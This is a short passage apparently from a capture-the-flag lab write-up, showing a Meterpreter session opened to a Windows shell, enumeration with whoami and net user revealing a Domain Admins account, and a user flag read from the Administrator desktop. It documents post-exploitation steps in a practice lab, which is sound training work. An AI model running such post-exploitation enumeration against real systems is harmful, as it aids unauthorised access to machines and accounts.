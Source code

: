 
no run shell
```bash
shell
```

we get
```bash
eterpreter > shell
Process 4260 created.
Channel 1 created.
Microsoft Windows [Version 10.0.20348.887]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
lab\cpowers

C:\Windows\system32>whoami/priv
whoami/priv


```


This user was a member of `domain admin` , so we have complete access on the first machine
```bash
C:\Users\cpowers>net user cpowers
net user cpowers
User name                    cpowers
Full Name                    Christine Powers
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/14/2022 6:57:50 PM
Password expires             Never
Password changeable          9/15/2022 6:57:50 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   9/27/2025 3:15:01 AM

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Domain Users         *Domain Admins        
The command completed successfully.



```
we get our first user flag
```bash
C:\Users\Administrator\Desktop>type user.txt
type user.txt
VL{349efd4b1ccbeb4d3ca0108fa5cc5802}
```
